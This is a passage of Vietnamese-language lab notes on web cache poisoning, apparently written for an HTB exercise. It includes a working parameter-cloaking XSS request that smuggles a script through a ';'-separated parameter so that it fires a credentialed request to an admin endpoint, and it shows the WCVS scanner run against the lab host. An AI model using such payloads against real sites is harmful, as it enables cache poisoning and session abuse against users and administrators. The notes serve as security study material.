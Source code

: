 2. **Poison Cache:**
   - Gửi yêu cầu độc hại với payload XSS, sử dụng `;` để che giấu tham số:  
     **Payload mẫu:**
     ```plaintext
     GET /?language=de&a=b;ref=%22%3E%3Cscript%3Evar%20xhr%20=%20new%20XMLHttpRequest();
     xhr.open('GET','/admin?reveal_flag=1',true);
     xhr.withCredentials=true;
     xhr.send();%3C/script%3E HTTP/1.1
     Host: cloak.wcp.htb
     ```
   - Khi admin truy cập URL, payload sẽ được thực thi và flag sẽ bị lộ.

---

### **So Sánh Fat GET và Parameter Cloaking**

| **Yếu Tố**            | **Fat GET**                                  | **Parameter Cloaking**                       |
|------------------------|----------------------------------------------|---------------------------------------------|
| **Khai thác**          | Xử lý tham số từ request body               | Phân tích khác biệt giữa web cache & server |
| **Ví dụ cụ thể**       | Tham số trong request body                  | Dùng `;` để "ẩn" tham số độc hại            |
| **Đặc điểm**           | Do lỗi máy chủ, không do ứng dụng           | Do lỗi phân tích tham số                    |

---
# 7. Công Cụ và Phòng Ngừa Web Cache Poisoning

#### **1. Công Cụ Tìm Lỗ Hổng Web Cache Poisoning**

Một trong những công cụ quan trọng để phát hiện lỗ hổng web cache poisoning là **Web-Cache-Vulnerability-Scanner (WCVS)**. Công cụ này giúp xác định các tham số nào của yêu cầu bị khóa (keyed) và tham số nào không bị khóa (unkeyed). WCVS sẽ tự động thêm cache buster vào mỗi yêu cầu để tránh vô tình làm nhiễu các phản hồi của người dùng khác.

**Cách sử dụng WCVS:**
1. Tải và giải nén công cụ:
   ```bash
   tar xzf web-cache-vulnerability-scanner_1.1.0_linux_amd64.tar.gz
   ./wcvs -h
   ```

2. Chạy quét web application:
   ```bash
   ./wcvs -u http://simple.wcp.htb/ -sp language=en -gr
   ```
   - **-u**: URL của ứng dụng web cần quét.
   - **-sp**: Đặt tham số GET, ví dụ `language=en`.
   - **-gr**: Tạo báo cáo.

3. Kết quả sẽ xuất hiện trong báo cáo JSON, chỉ ra các tham số gây lỗi cache poisoning, ví dụ:
   ```json
   {
     "technique": "Parameters",
     "isVulnerable": true,
     "requests": [
       {
         "reason": "Response Body contained 793369015723",
         "request": "GET /?language=en&ref=793369015723&cb=829054467467 HTTP/1.1",
         "response": ""
       }
     ]
   }
   ```
